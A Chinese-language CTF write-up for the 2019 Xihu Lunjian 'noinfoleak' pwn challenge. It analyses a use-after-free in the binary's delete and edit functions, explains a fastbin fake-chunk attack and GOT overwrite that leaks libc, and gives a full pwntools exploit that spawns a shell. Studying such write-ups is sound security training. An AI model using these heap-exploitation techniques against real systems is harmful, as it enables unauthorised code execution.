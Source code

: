 ```yaml
---
title: 2019-西湖论剑CTF-noinfoleak
date: 2019-04-10 21:38:31
tags:
---
```


## 0x00 程序分析

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

在程序delete功能 ，没有将free后的指针置为NULL
```c
void sub_4009DE()
{
  int v0; // [rsp+Ch] [rbp-4h]

  putchar(62);
  v0 = getint();
  if ( v0 >= 0 && v0 <= 15 )
    free(qword_6010A0[2 * v0]);
}
```

在程序edit功能，为对chunk指针是否被释放进行检查

```c
signed int sub_400A28()
{
  signed int result; // eax
  signed int v1; // [rsp+Ch] [rbp-4h]

  putchar(62);
  result = getint();
  v1 = result;
  if ( result >= 0 && result <= 15 )
  {
    putchar(62);
    result = read(0, qword_6010A0[2 * v1], (size_t)qword_6010A0[2 * v1 + 1]);
  }
  return result;
}
```

两处结合在一起，构成UAF漏洞

## 0x01 利用思路

程序有一个UAF漏洞

**1 UAF结合fastbin可以实现House of Spirit，将chunk分配到目标区域**

具体原理是fastchunk释放后，chunk中会被写入fd指针，指向下一个free fastchunk，因为存在UAF，所以可

以覆盖该fd指针，再次申请chunk时，就可以将chunk分配到fd指针指向的fake fastbin。

想要将这个fake fastbin分配出去，这里有个限制：

```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0)) // 如果取出来的fastbin和nb对应的fastbin不是一个下标
3578                {
3579                  errstr = "malloc(): memory corruption (fast)";
3580                errout:
3581                  malloc_printerr (check_action, errstr, chunk2mem (victim), av);
3582                  return NULL;
3583                }
```

取出来的fastbin和申请的chunk对应的fastbin必须是一个下标，这里都是fastbinsY[5]，因为fake fastbin的大小为0x7c(124)，申请的大小为0x70(112)，112≤fastbinsY[5]＜128

**2 修改free的got，制造信息泄露**

将chunk分配到目标区域后，这个目标区域距离.bss段存储堆指针的地址(0x6010A0)很近，因此可以写该地址的内存如下：

```
+------------+
|      0     |  # 0x6010A0  chunk0
+------------+
|  0x6010A0  |  # 0x6010A8	chunk1
+------------+
```

向chunk1 edit free@got后

```
+------------+
| free@got   |  # 0x6010A0  chunk0
+------------+
|  0x6010A0  |  # 0x6010A8	chunk1
+------------+
```

向chunk0 edit put@plt后

free@got -> put@plt，然后就有了信息输出，打印unsortedbin的fd(main_arena+88)，进而获得libc_base

## 0x02 EXP

```python
#/unr/bin/env python
from pwn import *
p = process('./noinfoleak')
elf = ELF('./noinfoleak')
libc = elf.libc
DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context.log_level = 'debug'

def q():
	gdb.attach(p)
	raw_input('test')

def add(size,content):
	p.recvuntil('>')
	p.sendline('1')
	p.recvuntil('>')
	p.sendline(str(size))
	p.recvuntil('>')
	p.send(content)
def delete(idx):
	p.recvuntil('>')
	p.sendline('2')
	p.recvuntil('>')
	p.sendline(str(idx))
def edit(idx,content):
	p.recvuntil('>')
	p.sendline('3')
	p.recvuntil('>')
	p.sendline(str(idx))
	p.recvuntil('>')
	p.send(content)
	
def pwn():
	add(0x5f,'0'*8)
	add(0x5f,'1'*8)
	add(0x7f,'2'*8) #unsortedbin chunk
	add(0x10,'3'*8)
	delete(0)
	delete(1)
	edit(1,p64(0x60108d))
	add(0x5f,'/bin/sh\x00')
	add(0x5f,'a'*3+p64(0)*2+p64(0x6010a0)*2)
	delete(2)	#get unsortedbin
	edit(1,p64(elf.got['free'])+p64(0x100))
	edit(0,p64(elf.plt['puts'])) #free->put
	delete(2)	#put the fd addr of unsortedbin
	libc_base = u64(p.recvuntil('\x0a',drop = True).ljust(8,'\x00'))-0x3C4B20-88
	log.success('libc_base:'+hex(libc_base))
	system = libc_base + libc.symbols['system']
	edit(0,p64(system))
	delete(4)
	p.interactive()
	
if __name__ == '__main__':
	pwn()

```




